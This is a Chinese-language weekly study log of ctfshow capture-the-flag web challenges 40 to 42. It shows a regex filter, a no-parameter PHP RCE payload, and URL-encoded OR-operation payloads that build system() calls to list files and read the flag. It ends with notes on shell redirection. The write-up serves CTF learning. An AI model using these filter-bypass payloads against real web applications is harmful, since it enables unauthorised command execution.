 # 完成事项
- ctfshow 刷题
- ZYPC-Web进度检查
# 下周待做事项
- python
- ctfshow
# 本周学习的知识分享
## ctfshow-rce
### web40
这个题过滤了很多符号   
```php
preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)
```
复制源码下来用字典fuzz下，发现`;` `!` `(` `)` `_` `|`,这些符号是可以使用的，再加上字母可以使用，所以这个题可以用无参RCE解决    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241124191558.png)  
- [无参数读文件和RCE总结](https://blog.csdn.net/qq_38154820/article/details/107171940?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522C0AAED2B-6658-4E56-82BE-040754368EA6%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=C0AAED2B-6658-4E56-82BE-040754368EA6&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-107171940-null-null.nonecase&utm_term=rce&spm=1018.2226.3001.4450)  

payload: `?cmd=system("ls");&c=eval(pos(pos(get_defined_vars())));`  
### web41
发现`|` `(` `)` `"`是可以用的，而`~` `^` `+`被过滤了，所以这个题应该用`或运算绕过`    
- [CTFshow wbe41 教你写脚本](https://blog.csdn.net/qq_40345591/article/details/127773706)  
- [无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）](https://blog.csdn.net/miuzzx/article/details/109143413)  
- [老生常谈的无字母数字 Webshell 总结](https://www.freebuf.com/articles/network/279563.html)  

用脚本生成payload，传入得到flag：  
```
c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%0c%13"|"%60%60")
c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%03%01%14%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60")
```  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241124202149.png)  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241124202210.png)  
### web42
- [2>/dev/null和>/dev/null 2>&1和2>&1>/dev/null的区别](https://blog.csdn.net/longgeaisisi/article/details/90519690)  

总结下：  
- 文件描述符
    - 0——标准输入（stdin）
    - 1——标准输出（stdout）
        即没有报错的输出
    - 2——标准错误（stderr）
- 重定向
重定向的符号有两个：>或>>，
    - `>`会先清空文件，然后再写入内容``
    - `>>`会将重定向的内容追加到现有文件的尾部
- Linux特殊文件
`/dev/null`是一个特殊的设备文件，这个文件接收到任何数据都会被丢弃。因此，null这个设备通常也被称为位桶（bit bucket）或黑洞。  
